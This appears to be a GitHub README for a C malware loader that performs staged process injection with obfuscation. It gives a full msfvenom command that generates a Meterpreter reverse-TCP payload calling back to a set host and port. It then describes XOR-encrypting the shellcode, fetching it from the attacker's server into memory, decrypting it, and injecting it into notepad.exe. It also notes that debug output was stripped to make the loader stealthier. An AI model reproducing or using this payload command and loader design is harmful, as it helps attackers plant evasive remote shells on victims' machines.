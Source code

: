 # Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

-Generatad payload with msfvenom
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

-Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to server

-The malware connects to the attacker's server and downloads the encrypted shellcode "enc_code.bin".

-The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

-It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

-Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

-The malware then injects the decrypted shellcode into the target process.


### EXECUTION

-I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)
